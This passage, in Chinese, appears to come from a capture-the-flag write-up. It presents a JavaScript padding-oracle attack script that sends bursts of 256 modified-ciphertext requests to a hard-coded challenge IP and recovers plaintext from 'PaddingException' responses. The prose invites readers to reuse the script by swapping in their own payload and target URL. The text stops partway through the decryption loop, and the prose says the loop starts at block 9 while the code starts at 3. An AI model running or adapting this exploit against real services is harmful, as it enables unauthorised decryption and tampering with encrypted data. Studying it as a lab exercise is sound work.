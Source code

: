 要注意的地方是最外層的 for 迴圈一定要從第 9 個往下遞減跑下去  
每次跑完如果 request 量太多的導致中斷連線的話  
會顯示下一個要解的 block，以及下一個 payload 應該帶什麼，去防止中斷  
因為這邊是直接一次 call 256 的 request 去找比較快，所以很容易斷 XD  
最後面要注意的是 wantedPlainText 一定要是 16 bytes 唯一組才可以  

想要直接使用這個程式碼的直接改兩個大點即可
1. originalPayload 的那一段 base64 改成正常 request 的 base64  
2. 把 `http://34.74.105.127/548dbda597/?post=` 改成你自己的即可  

```javascript
const getPayload = (paddingOracleValue, paddingValue, answer) => {
    answer.reverse()
    answer[paddingOracleValue] = paddingValue
    answer.reverse()
    return answer.toString('hex')
}

const setBlock = (allBlocks, targetBlock, paddingOracleValue, paddingValue, answer) => {
    const startPosition = targetBlock * 32;
    const previousBlockEndPosition = startPosition - 32;
    let first = allBlocks.substring(0, previousBlockEndPosition);
    let end = allBlocks.substring(startPosition);
    return first + getPayload(paddingOracleValue, paddingValue, answer) + end;
}

const encodeHexToBase64 = (payload) => {
    return Buffer.from(payload, 'hex').toString('base64').replace(/\=/g, '~').replace(/\//g, "!").replace(/\+/g, "-")
}

const decodeBase64ToHex = (payload) => {
    return Buffer.from(payload.replace(/\~/g, '=').replace(/\!/g, "/").replace(/\-/g, "+"), 'base64').toString('hex')
}

(async () => {
    const axios = require('axios');
    // original
    let originalPayload = decodeBase64ToHex("H6KJsPhBWKtdEt3LZnTuf8K5!-B69-TxsTNIze9!0Wrss6wGzNUKwi-aaz8WfDVnBrb2UsO7tuAhRej9F05Fexm6MihRiLDQO1vNGPdAgGZAWo11!Mw1tAdnhvdOZra3gJ99qA1adxSD!s97jVbcizRIXZ!MHVKw4jVNAplCiqzYtXJNNhxCXsJIPRKDptSLgukPWBN!wEY2e1nCQPYVrQ~~");
    for (let i = 3; i > 0; i--) {
        let block = i
        let plain = []
        let plainText = [];
        let rawPayload = originalPayload.substring(0, (block + 1) * 32)
        let previousIv = originalPayload.substring((block - 1) * 32, (block) * 32)
        let answer = Buffer.from("00000000000000000000000000000000", 'hex');
        for (let paddingOracleValue = 0; paddingOracleValue < 16; paddingOracleValue++) {
            let job = []
            for (let index = 0; index < 256; index++) {
                let paddingValue = index;
                let blocksToBeDecrypt = setBlock(rawPayload, block, paddingOracleValue, paddingValue, answer)
                payload = encodeHexToBase64(blocksToBeDecrypt)
                job.push(axios.get(`http://34.74.105.127/548dbda597/?post=${payload}`))
            }
            let results = await Promise.all(job).catch((error) => {
                console.log(error)
            })
            for (let index = 0; index < results.length; index++) {
                let paddingValue = index;
                if (!results[index].data.includes('PaddingException')) {
                    let originalIv = Buffer.from(rawPayload, 'hex')
```
